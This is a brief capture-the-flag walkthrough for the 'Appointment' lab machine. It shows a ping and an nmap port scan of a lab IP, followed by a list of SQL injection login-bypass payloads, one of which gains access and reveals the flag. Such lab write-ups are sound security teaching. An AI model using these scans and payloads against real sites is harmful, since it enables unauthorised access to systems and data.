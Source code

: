 ![Appointment.jpg](/assets/Tier-1/Appointment/appointment.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.208.7
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.208.7
```

**Output**
``` bash
PORT   STATE SERVICE
80/tcp open  http
```


3. Access to web page in the browser
![Web.PNG](/assets/Tier-1/Appointment/appointment-web.PNG)


4. Out goal is broke the web page with **Sql Injection**

**Try with**

`' OR '1`

`' OR 1 -- -`

`" OR "" = "`

`" OR 1 = 1 -- -`

`' OR '' = '`

`'='`

`'LIKE'`

`'=0--+`

` OR 1=1`

`' OR 'x'='x`

`' AND id IS NULL; --`


5. With this `' OR 1 = 1 -- -` 

![Sql_Injection.PNG](/assets/Tier-1/Appointment/appointment-web2.PNG)

6. And BOOM!
![Flag](/assets/Tier-1/Appointment/appointment-flag.PNG)


**By: Est**